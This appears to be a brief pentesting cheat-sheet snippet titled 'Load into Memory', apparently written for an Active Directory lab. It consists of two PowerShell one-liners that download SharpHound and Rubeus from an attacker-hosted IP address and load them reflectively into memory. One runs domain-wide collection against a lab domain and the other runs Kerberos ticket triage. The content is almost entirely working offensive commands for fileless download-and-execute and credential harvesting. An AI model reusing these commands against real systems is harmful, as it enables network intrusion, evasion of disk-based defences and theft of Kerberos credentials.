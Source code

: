 

## Load into Memory 

#### Linux



#### PowerShell

```bash
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.1/SharpHound.exe') $assem = [System.Reflection.Assembly]::Load($data) [Sharphound.Program]::Main("-d north.sevenkingdoms.local -c all".Split())`
```

```bash
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.1:8080/Rubeus.exe') $assem = [System.Reflection.Assembly]::Load($data); [Rubeus.Program]::MainString("triage");   `
```